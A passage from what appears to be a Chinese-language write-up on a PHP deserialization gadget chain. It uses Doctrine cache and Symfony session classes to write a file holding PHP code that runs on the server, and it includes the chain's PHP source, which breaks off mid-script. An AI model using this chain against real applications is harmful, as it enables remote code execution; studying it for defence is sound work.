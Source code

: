 下面快速分析一下 `save` 函数，如果没有定义 `started` 属性，那么会触发前面的异常，所以需要设置为 `true` ，`MetadataBag` 对象也必须用 `storageKey` 属性定义。

```plain
$ find . -name '*MetadataBag*'
./vendor/symfony/http-foundation/Session/Storage/MetadataBag.php

$ cat ./vendor/symfony/http-foundation/Session/Storage/MetadataBag.php | grep getStorageKey -A 3
    public function getStorageKey(): string
    {
        return $this->storageKey;
    }
```

最后，需要将以下属性添加到 `MockFileSessionStorage` 对象：

-   `savePath` ：创建文件的路径
-   `id` ：将文件附加 `.mocksess` 扩展名
-   `data` ：生成的文件内容，这里将包含在服务器上执行的 PHP 代码

```plain
<?php

namespace Doctrine\Common\Cache\Psr6
{
    class CacheAdapter
    {
        public $deferredItems = true;
    }
    class TypedCacheItem
    {
        public $expiry = 99999999999999999;
        public $value = "test";
    }

}

namespace Symfony\Component\HttpFoundation\Session\Storage
{
    class MockFileSessionStorage
    {
        public $started = true;
        public $savePath = "/tmp"; // Produces /tmp/aaa.mocksess
        public $id = "aaa";
        public $data = ['<?php system("id"); phpinfo(); ?>'];
    }

    class MetadataBag
    {
       public $storageKey = "a";
    }
}

namespace PopChain
{
use Doctrine\Common\Cache\Psr6\CacheAdapter;
use Doctrine\Common\Cache\Psr6\TypedCacheItem;
use Symfony\Component\HttpFoundation\Session\Storage\MockFileSessionStorage;
use Symfony\Component\HttpFoundation\Session\Storage\MetadataBag;

$obj = new CacheAdapter();
$obj->deferredItems = [new TypedCacheItem()];
$mockSessionStorage = new MockFileSessionStorage();
$mockSessionStorage->metadataBag = new MetadataBag();
$obj->cache =$mockSessionStorage;

```